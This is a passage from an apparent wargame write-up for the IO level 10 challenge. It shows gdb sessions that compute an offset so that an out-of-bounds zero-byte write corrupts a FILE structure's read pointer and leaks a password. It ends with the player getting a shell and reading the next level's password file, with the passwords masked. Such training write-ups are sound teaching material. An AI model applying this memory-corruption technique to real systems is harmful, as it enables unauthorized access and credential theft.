 
```sh
(gdb) !echo "obase=16; ibase=16; 804A008 + 4"|bc
804A00C
(gdb) x/bx 0x0804a00c
0x804a00c:	0x27
```

Ok so we have the address we want to write to so lets calculate the offset from the BYTE PTR[int(argv)] = 0 to the address of the last byte of _IO_read_ptr

```sh
(gdb) p 0x0804a00c - 0xbffffc60
$3 = 1208263596
(gdb) r 1208263596
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /tmp/d10/aaaaaa 1208263596

Breakpoint 1, 0x08048555 in main ()
(gdb) c
Continuing.

Breakpoint 2, 0x08048580 in main ()
(gdb) c
Continuing.
1234567890123456789
[Inferior 1 (process 21091) exited normally]
```

So we now have our predefined password and the parameter that will show us the read password. Lets try it

```sh
level10@io:/tmp/desdic10$ /levels/level10 1208263596
XXXXXXXXXXXXXXXXXXX
level10@io:/tmp/desdic10$ /levels/level10 'XXXXXXXXXXXXXXXXXXX'
sh-4.2$ cat /home/level11/.pass
XXXXXXXXXXXXXXXX
```


